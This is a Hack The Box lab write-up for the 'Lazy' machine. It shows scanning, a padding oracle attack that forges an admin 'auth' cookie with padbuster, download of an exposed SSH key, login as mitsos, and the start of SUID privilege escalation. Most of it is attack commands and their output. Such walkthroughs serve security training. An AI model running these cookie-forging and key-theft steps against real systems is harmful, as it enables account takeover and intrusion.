







# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# nmap -sC -sV -A 10.10.10.18
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-25 10:23 +08
Nmap scan report for 10.10.10.18
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: CompanyDev
|_http-server-header: Apache/2.4.7 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/25%OT=22%CT=1%CU=35821%PV=Y%DS=2%DC=T%G=Y%TM=6266062
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=103%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT     ADDRESS
1   3.24 ms 10.10.14.1
2   3.59 ms 10.10.10.18

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```

It seems like there is a website, let’s check it out!



Here is the login page.



Using `sqlmap` here shows that all the tested parameters do not appear to be injectable.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# cat login_request.txt                
POST /login.php HTTP/1.1
Host: 10.10.10.18
Content-Length: 32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.18
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.18/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=admin&password=password

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# sqlmap -r login_request.txt --batch
...
[10:30:19] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
...
```

Here is the registration page.



Let’s run a `gobuster` scan to check if we missed anything out.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# gobuster dir -u http://10.10.10.18 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.18
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/04/25 10:26:32 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 310] [--> http://10.10.10.18/images/]
/index.php            (Status: 200) [Size: 1117]                                
/login.php            (Status: 200) [Size: 1548]                                
/register.php         (Status: 200) [Size: 1592]                                
/header.php           (Status: 200) [Size: 734]                                 
/footer.php           (Status: 200) [Size: 51]                                  
/css                  (Status: 301) [Size: 307] [--> http://10.10.10.18/css/]   
/logout.php           (Status: 302) [Size: 734] [--> /index.php]                
/classes              (Status: 301) [Size: 311] [--> http://10.10.10.18/classes/]
/server-status        (Status: 403) [Size: 291]                                  
===============================================================
2022/04/25 10:29:11 Finished
===============================================================
```

Seems like there’s nothing much interesting. Let’s register for an account instead.

Apparently, after you register for an account and login, there is an interesting `auth` cookie.



Now, what would happen if I changed the `auth` cookie?



It says incorrect padding!

A quick Google search on `cookie padding attack` returns us `Padding Oracle Attack`.

>   When an application decrypts encrypted data, it will first decrypt the data; then it will remove the padding. During the cleanup of the padding, if an **invalid padding triggers a detectable behaviour**, you have a **padding oracle vulnerability**.
>
>   \- [Hacktricks](https://book.hacktricks.xyz/cryptography/padding-oracle-priv)

# Exploit

To exploit this vulnerability, we can use `padbuster`.

```bash
Usage: padbuster URL EncryptedSample BlockSize [options] 

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# padbuster http://10.10.10.18/index.php IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs 8 -cookies auth=IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 979

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (128/256) [Byte 8]
[+] Success: (120/256) [Byte 7]
[+] Success: (121/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (23/256) [Byte 4]
[+] Success: (175/256) [Byte 3]
[+] Success: (158/256) [Byte 2]
[+] Success: (162/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 2632f7577b141b87
[+] Intermediate Bytes (HEX): 566557eceb848a81
[+] Plain Text: user=shi

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (128/256) [Byte 8]
[+] Success: (225/256) [Byte 7]
[+] Success: (239/256) [Byte 6]
[+] Success: (135/256) [Byte 5]
[+] Success: (172/256) [Byte 4]
[+] Success: (9/256) [Byte 3]
[+] Success: (166/256) [Byte 2]
[+] Success: (164/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 6f3f651e091a93ec
[+] Intermediate Bytes (HEX): 545df1517d121d81
[+] Plain Text: ro

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=shiro

[+] Decrypted value (HEX): 757365723D736869726F060606060606

[+] Decrypted value (Base64): dXNlcj1zaGlybwYGBgYGBg==

-------------------------------------------------------
```

Yay! It worked~

Now, we can provide `padbuster` with a plaintext and it will return us with a valid cookie!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# padbuster http://10.10.10.18/index.php IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs 8 -cookies auth=IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs -encoding 0 -plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 979

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

Let’s update the session cookie to `BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA` and then refresh the webpage.

 


Clicking on `My Key` shows us a RSA private key with the name `mitsos` hinted on the filename.



With this key, we should be able to SSH into the machine as `mitsos`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# wget -O id_rsa http://10.10.10.18/mysshkeywithnamemitsos
--2022-04-25 11:24:07--  http://10.10.10.18/mysshkeywithnamemitsos
Connecting to 10.10.10.18:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1679 (1.6K)
Saving to: ‘id_rsa’

id_rsa                        100%[===============================================>]   1.64K  --.-KB/s    in 0s      

2022-04-25 11:24:07 (389 MB/s) - ‘id_rsa’ saved [1679/1679]

                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# chmod 600 id_rsa 
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# ssh -i id_rsa mitsos@10.10.10.18
The authenticity of host '10.10.10.18 (10.10.10.18)' can't be established.
ED25519 key fingerprint is SHA256:CA0BPc42eJXqPJR5d4JYc3o+PPHnj7L2JY/wf5q7ve8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.18' (ED25519) to the list of known hosts.
sign_and_send_pubkey: no mutual signature supported
mitsos@10.10.10.18: Permission denied (publickey).
```

At this point, I was super confused because for some reason SSH couldn’t work.

Luckily, I found a workaround [here](https://forum.hackthebox.com/t/valentine-ssh-trouble/253323/3) to add a flag of `-o PubkeyAcceptedKeyTypes=+ssh-rsa` when using SSH.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# ssh -i id_rsa mitsos@10.10.10.18 -o PubkeyAcceptedKeyTypes=+ssh-rsa
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Apr 25 06:23:17 EEST 2022

  System load: 0.0               Memory usage: 4%   Processes:       192
  Usage of /:  48.3% of 2.76GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Dec  7 17:41:53 2021 from 10.10.14.22
mitsos@LazyClown:~$ 
```

# Privilege Escalation

Looking around the files, it seems like there’s an interesting root SUID binary file `backup`. 

```bash
mitsos@LazyClown:~$ ls -la
total 64
drwxr-xr-x 5 mitsos mitsos 4096 Dec  7 17:43 .
drwxr-xr-x 3 root   root   4096 Dec  7 16:27 ..
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
-rw------- 1 mitsos mitsos  224 May  3  2017 .bash_history
-rw-r--r-- 1 root   root      1 May  3  2017 .bash.history
-rw-r--r-- 1 mitsos mitsos  220 May  2  2017 .bash_logout
-rw-r--r-- 1 mitsos mitsos 3637 May  2  2017 .bashrc
drwx------ 2 mitsos mitsos 4096 Dec  7 16:27 .cache
-rw-rw-r-- 1 mitsos mitsos    0 Dec  7 17:43 cat
